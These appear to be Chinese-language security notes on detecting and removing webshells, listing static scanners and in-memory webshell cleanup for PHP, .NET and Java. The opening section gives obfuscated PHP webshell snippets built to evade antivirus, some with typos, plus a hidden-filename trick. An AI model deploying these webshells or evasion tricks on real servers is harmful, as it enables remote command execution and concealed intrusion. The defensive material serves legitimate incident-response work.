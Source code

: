 ## **webshell文件特征**
主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：
```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert‘;
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);


```
木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。
## **webshell文件静态查杀**
Windows安全中心
阿里伏魔：<https://ti.aliyun.com/#/webshell>
百度WEBDIR+ ：<https://scanner.baidu.com/#/pages/intro>
河马：安装版，打开点击选择文件目录，即可扫描目录下是否有木马。<https://www.shellpub.com/>
河马linux版，命令指定网站目录即可扫描，给出xls结果。
CloudWalker
D盾：安装版，打开点击选择文件目录，即可扫描目录下是否有木马。

^
## **webshell内存马特征**
内存中的对象找不到对应的.class文件中的类型。

java内存马原理：
<https://www.freebuf.com/articles/web/274466.html>
<https://github.com/Getshell/Mshell>


## **webshell内存马查杀**
内存马情况，常规查杀找不出来。

典型：哥斯拉文件木马getshell后，可以植入.net,php,java内存马。

查杀：
asp.net内存马，检测及查杀工具：上传aspx-memshell-scanner.aspx脚本文件到网站web目录，访问即可检测查杀。
php内存马，常规后门查杀检测后，中间件重启后删除文件即可。

java内存马，重启不行。
1.用河马(主机安装后，使用命令一键检测java，.net的内存马，hmws.exe javascan，找到缓存路径删除重启即可)。
>linux版，专用于Java类内存马检测自动识别包括Tomcat、Weblogic、Jboss环境；Spring等打包环境支持手动指定进程方式，因此第三方Java应用（gitlab，ES）都可以检测；
>Windows版，Java内存马检测，Java6+;OA系统、办公系统；
>.Net内存马，IIS等场景下的.net内存马检测。
>全面覆盖内存马常见场景，可检测冰蝎、哥斯拉等内存马利用工具注入的内存马。

2.对于tomcat，上传tomcat-memshell-scanner.jsp脚本文件到网站web目录，访问即可检测查杀。
可以直接下载源码和kill，如果无法分析，可以下载dump源码后分析是否为木马代码。

